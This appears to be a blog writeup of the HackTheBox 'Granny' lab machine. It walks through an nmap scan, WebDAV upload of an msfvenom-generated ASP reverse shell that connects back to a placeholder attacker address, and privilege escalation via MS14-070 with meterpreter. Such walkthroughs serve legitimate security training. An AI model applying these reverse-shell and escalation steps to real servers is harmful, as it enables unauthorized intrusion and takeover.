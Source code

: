 ```yaml
---
layout: single
title:  "HackTheBox: Granny - Writeup"
date:   2019-04-20 12:00:02 +0530
author: Kyle Simmons
categories: [htb]
---
```

HackTheBox: Granny is an easy Windows machine to get into with several vulnerabilities
that can be exploited to get in.

<h2>1.1 Enumeration</h2>
I first started by doing a port scan of Granny.
{% highlight shell %}
nmap -sC -sV -A -oA granny-scan 10.10.10.15
Nmap scan report for 10.10.10.15
Host is up (0.035s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods:
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Error
| http-webdav-scan:
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/6.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   WebDAV type: Unkown
|_  Server Date: Wed, 17 Apr 2019 13:40:00 GMT
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP|2000 (92%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows Server 2003 SP1 or SP2 (92%), Microsoft Windows Server 2008 Enterprise SP2 (92%), Microsoft Windows Server 2003 SP2 (91%), Microsoft Windows 2003 SP2 (91%), Microsoft Windows XP SP3 (90%), Microsoft Windows XP (87%), Microsoft Windows Server 2003 SP1 - SP2 (86%), Microsoft Windows XP SP2 or Windows Server 2003 (86%), Microsoft Windows 2000 SP4 (85%), Microsoft Windows XP SP2 or Windows Server 2003 SP2 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   41.97 ms 10.10.14.1
2   42.07 ms 10.10.10.15
{% endhighlight %}
<br>
Visting the website and running dirb revealed that the website is full of inital configuration
files as it appears that the website has not been setup yet or misconfigured. However, the port scan
revealed that http webdav methods can used. A good way to test for this is with `davtest`.
<br>

<img src="/assets/images/htb/granny/davtest.png">
<br>
After looking around online i found a good sources online to use curl for method requests:
<br>
[Webdav curl examples link]

<h2>2.1 Exploitation</h2>
Firstly a shell needs to be generated to upload to the web server. Since the server is running
asp as found in enumeration, an asp shell can be generated through msfvenom.

`msfvenom -p windows/shell_reverse_tcp LHOST=IP_ADDRESS LPORT=PORT -f asp > rshell.asp`
<img src="/assets/images/htb/granny/msfvenom-rshell.png">

Curl is used for sending the reverse shell as a .txt file. Then the MOVE method is used
to change the file extension to `.asp`.

<img src="/assets/images/htb/granny/curl-shell.png">

The shell is initialised with `'curl http://10.10.10.15/rshell.asp'` and a shell appears in the
netcat listener.

<img src="/assets/images/htb/granny/reverse-shell-done.png">

<h2>3.1 Post exploitation</h2>

A `whoami /all` reveals that i do not have a privileged shell, this will require further post enumeration to
get a privileged shell.

<img src="/assets/images/htb/granny/all-users.png">

A `sysinfo` shows that the machine is an old version of windows running `Windows server 2003 SP2`.

<img src="/assets/images/htb/granny/sysinfo.png">

After some research, several local exploits have been found at:

[Local windows exploits link]

The MS14-070 exploit appeared to be what i was looking for. The exploit was put onto the target
machine the same way as the reverse shell. When executing the exploit there was a problem with the
exploit not working properly. The process was running but it was stuck.

<img src="/assets/images/htb/granny/escalted-priv.png">

To solve this, metasploit is used to convert the shell to meterpreter and migrate the process.

Convert shell to meterpreter:
<img src="/assets/images/htb/granny/migrate-to-meterpreter.png">

Execute the exploit in metasploit:
<img src="/assets/images/htb/granny/priv-esc-exploited.png">

`session 3` has been opened and when opening it is a privileged meterpreter shell. The root.txt is found in the
desktop of the Administrator account, and success!

<img src="/assets/images/htb/granny/found-root.png">









[Local windows exploits link]: https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-070
[Webdav curl examples link]: https://code.blogs.iiidefix.net/posts/webdav-with-curl/
